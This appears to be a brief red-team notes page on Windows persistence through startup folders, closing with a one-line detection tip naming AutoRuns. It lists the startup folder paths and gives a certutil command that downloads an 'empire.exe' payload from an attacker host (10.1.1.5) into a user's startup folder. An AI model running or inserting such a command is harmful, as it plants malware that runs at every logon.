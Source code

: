 # Startup Folder

**Placing a program within a startup folder will cause the program to execute when a user logs in.**

&#x20;**** There is a startup folder location for individual user accounts as well as a system-wide startup folder that will be checked regardless of which user account logs in. The startup folder path for the current user is:

```
C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

The startup folder path for all users is:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

for example we can download and place the payload in startup folder with certutil.exe :&#x20;

```
certutil -urlcache -f -split http://10.1.1.5/empire.exe ‘C:\Users\tspeedman\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\empire.exe’
```

## <mark style="color:red;">**Detection**</mark>

use AutoRuns.exe tool and check for files located in users startup folder.

